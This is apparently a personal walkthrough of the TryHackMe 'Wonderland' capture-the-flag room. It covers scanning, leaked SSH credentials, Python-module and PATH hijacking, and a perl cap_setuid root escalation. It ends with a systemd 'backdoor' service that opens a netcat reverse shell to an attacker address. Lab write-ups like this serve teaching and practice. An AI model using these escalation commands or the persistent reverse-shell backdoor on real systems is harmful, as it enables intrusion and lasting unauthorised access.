 # [Wonderland](https://tryhackme.com/room/wonderland)

```
export IP=10.10.14.159
```

---

## Task 1
1. User flag

	a. Nmap scan (`nmap -sV -sC -oN nmap/initial $IP`):
	```
	Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-02 07:25 EDT
	Nmap scan report for 10.10.204.12
	Host is up (0.12s latency).
	Not shown: 998 closed tcp ports (conn-refused)
	PORT   STATE SERVICE VERSION
	22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   2048 8e:ee:fb:96:ce:ad:70:dd:05:a9:3b:0d:b0:71:b8:63 (RSA)
	|   256 7a:92:79:44:16:4f:20:43:50:a9:a8:47:e2:c2:be:84 (ECDSA)
	|_  256 00:0b:80:44:e6:3d:4b:69:47:92:2c:55:14:7e:2a:c9 (ED25519)
	80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
	|_http-title: Follow the white rabbit.
	Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

	Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
	Nmap done: 1 IP address (1 host up) scanned in 45.00 seconds

	```

	b. Gobuster scan (`gobuster dir -u http://$IP -w /usr/share/wordlists/dirb/common.txt | tee gobuster-common.log`):
	```
	===============================================================
	Gobuster v3.1.0
	by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
	===============================================================
	[+] Url:                     http://10.10.204.12
	[+] Method:                  GET
	[+] Threads:                 10
	[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
	[+] Negative Status codes:   404
	[+] User Agent:              gobuster/3.1.0
	[+] Timeout:                 10s
	===============================================================
	2022/10/02 07:26:19 Starting gobuster in directory enumeration mode
	===============================================================
	/img                  (Status: 301) [Size: 0] [--> img/]
	/index.html           (Status: 301) [Size: 0] [--> ./]  
	/r                    (Status: 301) [Size: 0] [--> r/]  
	                                                        
	===============================================================
	2022/10/02 07:27:07 Finished
	===============================================================
	```

	c. Found the URL, `http://$IP/r/a/b/b/i/t`, by first going to the /r path then running gobuster again, then finding the /a path, then running gobuster, and so on until I found the pattern.

	d. Inpected the page's source code and found what seems to be SSH credentials:
	```
	alice
	HowDothTheLittleCrocodileImproveHisShiningTail
	```

	e. SSH doesn't seem to be working and the page seems to be acting funky so I restarted the machine.

	f. That didn't work so I turned off my own personal VPN and restarted the OpenVPN connection and was able to get an SSH connection.

	g. Now that we're in. We run `ls` and see that the `root.txt` file is in alice's home directory. It can't be read, but it's curious as to why it would be there. In fact, it begs the question, is the `user.txt` flag in the root directory? Doesn't hurt to check...

	h. Found the `user.txt` flag @ `/root/user.txt`:
	```
	thm{"Curiouser and curiouser!"}
	```


2. Root flag

	a. Ran a `sudo -l` to see what damage I could do as alice.
	```
	[sudo] password for alice: 
	Matching Defaults entries for alice on wonderland:
	    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

	User alice may run the following commands on wonderland:
	    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
	```

	b. Looks like I can run a Python script to gain access to the `rabbit` user.

	c. After taking a look at the Python script, `walrus_and_the_carpenter.py`, I noticed that it doesn't have a shabang at the top so I'm wondering if I can exploit that...

	d. I think I can create my own `random.py` file in the same directory as `walrus_and_the_carpenter.py` so that anytime `walrus_and_the_carpenter.py` is called, it executed my `random.py` file instead of the built-in python module, `random`.

	e. Created `random.py` with the following contents:
	```
	#!/usr/bin/python3.6
	import os
	os.system("/bin/bash")
	```

	f. Then I executed the exploit:
	```
	sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
	```

	g. BOOM! Gained access to the `rabbit` user.

	h. Looking in `rabbit`'s home directory, we find an executable, `./teaParty`, which when run outputs the following:
	```
	Welcome to the tea party!
	The Mad Hatter will be here soon.
	Probably by Mon, 03 Oct 2022 02:55:56 +0000
	Ask very nicely, and I will give you some tea while you wait for him
	```

	i. Looks like it's a callout to when something gets executed as the `hatter` user. Another privilege escalation opportunity perhaps??

	j. Created a `bin` folder inside `/home/rabbit` and created an executable named `date` with the following contents:
	```
	#!/bin/bash
	/bin/bash -p
	```

	k. Next, I exported the new bin folder to the PATH variable:
	```
	export PATH=/home/rabbit/bin:$PATH
	```

	l. Finally, I reran the `teaParty` executable at `/home/rabbit/teaParty` and was able to become the user, `hatter`.

	m. Going to `hatter`'s home directory, I found a `password.txt` file with the string:
	```
	WhyIsARavenLikeAWritingDesk?
	```

	n. Used that password to SSH as `hatter`. For a cleaner shell.

	o. Downloaded `linpeas.sh` on the target and ran it. Found a potential vulnerability:
	```
	Files with capabilities (limited to 50):
	/usr/bin/perl5.26.1 = cap_setuid+ep
	/usr/bin/mtr-packet = cap_net_raw+ep
	/usr/bin/perl = cap_setuid+ep
	```

	p. Googled `cap_setuid perl` and found `https://www.hackingarticles.in/linux-for-pentester-perl-privilege-escalation/`. In it they have the exploit:
	```
	perl -e 'use POSIX (setuid); POSIX::setuid(0); exec "/bin/bash";'
	```

	q. AND BOOM! Root baby! Found the root flag @ `/home/alice/root.txt`:
	```
	thm{Twinkle, twinkle, little bat! How I wonder what you’re at!}
	```

	r. For fun, I played around with creating different backdoors. I created one using SSH and another using a service that executes at reboot. For the service, this is the code I used (thanks to `https://shadowslayerqwerty.medium.com/creating-a-netcat-reverse-shell-without-e-89b45134de99`):
	```
	# Placed at /etc/systemd/system/backdoor.service
	[Unit]
	Description=Very important backdoor.

	[Service]
	Type=simple
	ExecStartPre=/bin/mknod /tmp/backpipe p
	ExecStart=/bin/bash -c '/bin/mknod /tmp/backpipe p; /bin/bash 0</tmp/backpipe | /bin/nc $MY_IP 1111 1>/tmp/backpipe'

	[Install]
	WantedBy=multi-user.target
	```
